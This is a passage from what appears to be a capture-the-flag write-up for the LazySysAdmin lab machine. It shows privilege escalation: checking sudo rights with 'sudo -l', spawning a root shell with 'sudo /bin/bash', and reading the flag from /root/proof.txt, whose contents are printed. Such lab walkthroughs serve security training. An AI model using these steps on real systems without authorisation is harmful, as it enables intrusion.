 Successfully switched to user `togie`.

### Sudo Privileges

I checked sudo privileges for the `togie` user:

```shellscript
sudo -l
```

**Result:**

```plaintext
User togie may run the following commands on LazySysAdmin:
    (ALL : ALL) ALL
```

The user `togie` has full sudo privileges!

### Root Access

I escalated to root using sudo:

```shellscript
sudo /bin/bash
```

Successfully obtained root access.

## Flag Capture

With root access, I navigated to the root directory and retrieved the flag:

```shellscript
cd /root
cat proof.txt
```

**Flag:**

```plaintext
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851

Well done :)

Hope you learn't a few things along the way.

Regards,
Togie Mcdogie

Enjoy some random strings
WX6k7NJtA8gfk*w5J3&T@*Ga6!0o5UP89hMVEQ#PT9851
2d2v#X6x9%D6!DDf4xC1ds6YdOEjug3otDmc1$#slTET7pf%&1nRpaj^68ZeV2St9GkdoDkj48Fl$MI97Zt2nebt02bhO!5Je65B6Z0bhZhQ3W64wL65wonnQ$@yw%Zhy0U19pu
```

## Summary
